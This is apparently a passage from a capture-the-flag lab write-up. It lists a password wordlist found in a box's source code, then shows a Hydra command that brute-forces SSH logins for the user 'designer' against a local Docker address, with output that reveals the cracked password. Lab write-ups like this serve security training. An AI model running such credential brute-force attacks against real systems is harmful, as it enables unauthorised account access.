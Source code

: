 ```
HackThis!@3
SuperSecurePassword123
JustAnotherKey99
TryGuessMe#22
SimplePass88!
HiddenSecret!2
CrazyCodePass@
SneakyKey99$
Password@Vault
EliteHacker#77
FortKnoxPass!!
IronWall!99
UltraHidden#32
GodModeActive!
MasterKey$66
NoOneCanSeeMe!
LockedSafe#12
MyLittleSecret@
BigBossKey!!
DigitalFortress$
PasswordBank#9
YouShallNotPass!
NotSoObvious99
SecretStash@12
AnonymousPass$
BlackHatKey!77
RedTeamAccess#
PrivilegedUser@
HiddenVault$$
EncryptionKing!
DecryptedEasy#
BypassMePlz!!
SuperHiddenKey@
CyberGuardian99!
```

## Escalate user designer

### Hydra

```shell
hydra -l designer -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-27 07:24:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 50 tasks per 1 server, overall 50 tasks, 50 login tries (l:1/p:50), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: designer   password: SuperSecurePassword123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 21 final worker threads did not complete until end.
[ERROR] 21 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-27 07:25:00
```
